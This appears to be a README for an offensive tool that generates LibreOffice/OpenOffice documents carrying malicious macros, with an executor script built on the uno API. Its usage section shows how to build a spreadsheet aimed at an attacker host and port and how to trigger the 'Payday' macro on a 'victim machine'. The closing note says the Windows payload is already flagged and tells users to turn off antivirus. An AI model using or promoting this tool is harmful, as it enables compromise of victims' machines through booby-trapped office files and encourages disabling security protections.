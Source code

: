 # Malicious Macro Generator LibreOffice/OpenOffice
`.odt` Writer Document  
`.ods` Calc Spreadsheet    
`.odb` Base Database  
`.odp` Impress Presentation  
`.odg` Draw Drawing  

# Malicious Macro Executor LibreOffice/OpenOffice

> Python Package: uno (Universal Network Objects) is typically associated with macro programming and automation tasks for LibreOffice or OpenOffice. It is an API (Application Programming Interface) provided by LibreOffice and OpenOffice that allows the use of various programming languages, including Python, to control the functionalities of these office suites.
>
> If you want to use the uno library in Python, you generally do not need to install it separately, as it should come bundled with the installation of LibreOffice or OpenOffice. However, you must ensure that the version of Python you are using is compatible with the version of Python that comes with LibreOffice or OpenOffice.

Usage:

```console
# Local mahine: generate file.ods
$ python3 mmg-ods.py linux $RHOST $RPORT

# Victim machine:
$ export file_path=./file.ods; export library_name=Standard; export module_name=Module1; export macro_name=Payday
$ python3 exp.py --file $file_path -H localhost -P 2002 \
                 --library $library_name --module $module_name --macro $macro_name
```

![usage](./resource/usage.png)

### Note:

This script was created for educational purposes only.  
Macros should be enabled in LibreOffice/OpenOffice.  
Windows payload is already detected, turn off your AV if you experiment some detection trouble.  
